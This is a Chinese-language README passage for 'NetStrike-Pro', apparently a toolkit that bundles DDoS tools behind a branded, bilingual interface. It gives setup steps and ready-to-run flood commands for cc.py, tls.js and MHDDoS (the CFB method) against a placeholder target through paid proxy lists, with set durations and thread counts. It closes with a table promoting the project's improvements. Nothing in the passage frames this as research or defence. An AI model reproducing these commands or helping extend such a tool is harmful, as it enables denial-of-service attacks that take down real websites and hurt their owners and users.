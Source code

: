 ## 🎯 如何立即使用

### 快速测试

```bash
# 1. 进入项目目录
cd NetStrike-Pro

# 2. 安装基础依赖
pip3 install rich pyfiglet colorama PyYAML

# 3. 测试版本
python3 attack.py --version

# 4. 查看帮助
python3 attack.py --help

# 5. 查看 UI 效果（英文）
python3 -c "from ui.intro import show_intro; show_intro('en')"

# 6. 查看 UI 效果（中文）
python3 -c "from ui.intro import show_intro; show_intro('zh')"
```

### 使用原有工具

在新框架完全集成之前，你仍然可以使用原有工具：

```bash
# 返回原项目目录
cd ..

# 使用原有的 cc.py
python3 cc.py -url https://target.com -f proxy_paid.txt -v http -s 60

# 使用原有的 tls.js
node 新建文件夹/tls.js https://target.com 120 128 10 proxy_paid.txt

# 使用原有的 MHDDoS
python3 mhddos/start.py CFB 0 https://target.com 200 proxy_paid.txt 100 180
```

---

## 💪 项目优势

### 相比原项目的改进

| 方面 | 原项目 | NetStrike Pro |
|------|--------|---------------|
| **工具数量** | 5-10 个分散工具 | ✅ 统一入口 |
| **UI** | 基础文本 | ✅ 专业 Rich UI |
| **语言** | 仅中文或仅英文 | ✅ 中英双语 |
| **配置** | 硬编码 | ✅ YAML 配置 |
| **文档** | 分散 | ✅ 统一完整 |
| **架构** | 单文件 | ✅ 模块化 |
| **扩展性** | 困难 | ✅ 易于扩展 |
| **品牌** | 无 | ✅ 专业品牌 |
